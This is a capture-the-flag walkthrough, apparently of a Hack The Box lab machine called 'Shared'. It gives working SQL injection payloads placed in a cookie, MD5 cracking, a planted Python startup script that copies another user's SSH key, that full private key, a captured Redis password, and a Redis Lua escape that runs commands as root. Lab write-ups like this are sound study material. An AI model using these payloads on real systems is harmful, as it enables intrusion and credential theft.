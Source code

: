 ![RedPanda.PNG](/assets/Machines/Medium/Shared/Shared.png)

1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.172
```

2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.172
```

**Output**
```bash
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

3. Visit the web site

![web.PNG](/assets/Machines/Medium/Shared/web.PNG)
---

You need to buy any product and click on **Proceed to checkout**

![product.PNG](/assets/Machines/Medium/Shared/product.PNG)


4. Then, with BurpSuite try Inject SQL in the **cookies**, most especific in **custom_cart**

![payment.PNG](/assets/Machines/Medium/Shared/payment.PNG)

---

![cookie.PNG](/assets/Machines/Medium/Shared/cookie.PNG)

5. Try with the next sentences:

+ `{"' or 1=0 union select 1,@@version,3-- - ":"1"}`

![version.PNG](/assets/Machines/Medium/Shared/version.PNG)

---

+ `{"' or 1=0 union select 1,database(),3 -- - ":"1"}`

![db.PNG](/assets/Machines/Medium/Shared/b.PNG)

---

+ `{"' or 1=0 union select 1,table_name,3 from information_schema.tables where table_schema='checkout'-- - ":"1"}`

![table.PNG](/assets/Machines/Medium/Shared/table.PNG)

---

+ `{"' or 1=0 union select 1,username,3 from user-- - ":"1"}`

![user.PNG](/assets/Machines/Medium/Shared/user.PNG)

---

+ `{"' or 1=0 union select 1,password,3 from user-- - ":"1"}`

![password.PNG](/assets/Machines/Medium/Shared/password.PNG)


6. The password is hashed, use `hash-identifier` yo know the format
```bash
┌──(root㉿est)-[/home/kali]
└─# hash-identifier                                              
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
HASH: fc895d4eddc2fc12f995e18c865cf273
```

**Output**
```bash
Possible Hashs:
[+] MD5
```


7. With john decrypt the hash
```bash
┌──(root㉿est)-[/home/kali]
└─| john --format=raw-md5  -w=/home/kali/Desktop/rockyou.txt hash
```

**Output**

```bash
Soleil101
```


8. With this credentials connect to ssh
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Medium/Shared]
└─| ssh james_mason@10.10.11.172
```


**Output**
```bash
james_mason@shared:~$
```

9. Run this
```bash
james_mason@shared:~$ mkdir -m 777 /opt/scripts_review/profile_default/
james_mason@shared:~$ mkdir -m 777 /opt/scripts_review/profile_default/startup
james_mason@shared:~$ echo "import os;os.system('cat ~/.ssh/id_rsa > ~/dan_smith.key')" > /opt/scripts_review/profile_default/startup/poc.py
```

10. Copy the ssh key and connect to user **dan_smith**

```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Medium/Shared]
└─| cat ke                           
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
> Remember put 600 permision.

11. Connecy to ssh

```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Medium/Shared]
└─| ssh dan_smith@10.10.11.172 -i ke
```

**Output**
```bash
dan_smith@shared:~$ 
```

12. Read a **user flag**
```bash
dan_smith@shared:~$ cat user.txt 
380fab06016fd9471ce85e4db92dcdf6
```


13. Identified the group of user and search for files to try scale privileges
```bash
dan_smith@shared:~$ id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
dan_smith@shared:~$ find / -group sysadmin 2>/dev/null
/usr/local/bin/redis_connector_dev
```

14. Download **redis_connector_dev** file in our machine

+ Create a server with python
```bash
dan_smith@shared:/usr/local/bin$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

---

+ With **wget** download the file
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Medium/Shared]
└─| wget http://10.10.11.172:8000/redis_connector_dev
```



15. Run the file and listen on port 6379
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Medium/Shared]
└─| ./redis_connector_dev 
[+] Logging to redis instance using password...
```
---
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Medium/Shared]
└─| nc -lvnp 6379
listening on [any] 6379 ...
auth
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 35836
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```


16. Run the next commands on Redis
```bash
dan_smith@shared:/usr/local/bin$ redis-cli
127.0.0.1:6379> CONFIG SET requirepass F2WHqJUz2WEz=Gqq
(error) NOAUTH Authentication required.
127.0.0.1:6379> AUTH default F2WHqJUz2WEz=Gqq
OK
```


17. Login on redis-cli with the password

```bash
dan_smith@shared:/usr/local/bin$ redis-cli --pass F2WHqJUz2WEz=Gqq
```


18. Run next commando to get **root flag**

```bash
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /root/root.txt", "r"); local res = f:read("*a"); f:close(); return res' 0
```

**Output**
```bash
"ca5b69ed8354ed3d7cbdcb5591a22d95\n"
```
> Remove **\n** and you get a **root flag**